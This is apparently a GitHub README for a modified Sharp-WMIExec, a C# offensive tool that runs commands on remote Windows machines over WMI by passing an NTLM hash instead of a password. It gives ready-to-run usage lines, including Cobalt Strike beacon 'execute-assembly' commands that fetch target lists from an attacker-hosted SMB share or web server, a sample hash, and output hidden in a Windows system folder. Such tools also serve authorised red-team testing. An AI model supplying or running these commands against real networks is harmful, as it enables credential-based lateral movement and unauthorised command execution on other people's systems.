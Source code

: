 #### Modifed version of Sharp-WMIExec that can read a file containig IPs/hostnames and save results to a file.

# Sharp-WMIExec
A native C# conversion of Kevin Robertsons Invoke-SMBExec powershell script. (https://github.com/Kevin-Robertson/Invoke-TheHash/blob/master/Invoke-WMIExec.ps1)

Built for .NET 3.5

# Usage
Sharp-WMIExec.exe username:\<user\> domain:\<domain\> hash:\<ntlm\> target:\<target/file\> command:\<command\> output:\<outputFile.txt\> 

If launching from Cobalt Strike `execute-assembly`, you can host a file containing IPs/hostnames on an SMB share and specify the UNC path as the target:
```
root@kali:~# smbserver.py -smb2support myshare /root/tmp/
beacon> execute-assembly Sharp-WMIExec.exe username:someUser hash:64F12CDDAA88057E06A81B54E73B949B target:\\192.168.20.5\myshare\systems.txt output:C:\windows\tracing\log.txt
```
or a web server
```
root@kali:~# python3 -m http.server 81
beacon> execute-assembly Sharp-WMIExec.exe username:someUser hash:64F12CDDAA88057E06A81B54E73B949B target:http://192.168.20.5:81/systems.txt output:C:\windows\tracing\log.txt
```

# Description
This Assembly will allow you to execute a command on a target machine using WMI by providing an NTLM hash for the specified user.

# Help
```
Option		     Description                                                                                                                                                                                                      
username*	     Username to use for authentication                                                                     
hash*		     NTLM Password hash for authentication. This module will accept either LM:NTLM or NTLM format           
domain		     Domain to use for authentication. This parameter is not needed with local accounts or when using @domain after the username
target		     Hostname/IP Address of the target or a file containg hostnames/IPs. File can be grabbed via UNC or from a web server.
command		     Command to execute on the target. If a command is not specified, the function will check to see if the username and hash provide local admin access on the target
output		     File to save results to. Results are appended if file exists

-CheckAdmin          Check admin access only, don't execute command
-Help (-h)           Switch, Enabled debugging [Default='False']  
-Debug	             Print Debugging Information along with output
```
 
